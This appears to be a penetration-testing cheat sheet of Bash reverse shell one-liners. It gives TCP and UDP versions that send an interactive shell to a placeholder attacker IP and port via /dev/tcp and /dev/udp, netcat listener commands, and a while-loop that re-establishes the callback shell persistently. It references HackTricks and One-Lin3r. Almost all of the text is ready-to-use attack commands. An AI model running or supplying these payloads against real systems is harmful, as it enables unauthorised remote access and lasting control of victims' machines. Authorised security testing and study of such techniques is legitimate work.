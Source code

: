 # Bash

## 01 - TCP Method

- Target

`$ /bin/bash -i >& /dev/tcp/<IP>/<LPORT> 0>&1`

- Attacker

`user@pentestos:~$ nc -lnvp <LPORT>`

## 02 - UDP Method

- Target

`$ /bin/bash -i >& /dev/udp/<IP>/<LPORT> 0>&1`

- Attacker

`user@pentestos:~$ nc -luvp <LPORT>`

## 03 - Persistent Callback Shell

- In case you might lose the callback connection. It's better to make it persistent.

`$ while true; do /bin/bash -c /path/to/shell; sleep 10; done`

`$ while true; do /bin/bash -i >& /dev/<protocol>/<IP>/<LPORT> 0>&1; sleep 10; done`

## References

- [Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [One-Lin3r](https://github.com/D4Vinci/One-Lin3r)